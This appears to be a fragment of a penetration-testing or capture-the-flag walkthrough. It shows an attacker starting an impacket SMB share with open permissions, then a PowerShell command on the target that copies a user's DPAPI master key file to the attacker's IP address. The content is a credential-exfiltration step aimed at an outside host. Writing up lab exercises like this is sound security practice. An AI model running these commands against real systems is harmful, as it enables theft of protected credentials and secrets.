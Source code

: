
### My machine
```sh
mkdir -p share
chmod 777 share

sudo impacket.smbserver share ./share -smb2support

```

### Target
```powershell
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.94\share\masterkey_blob

```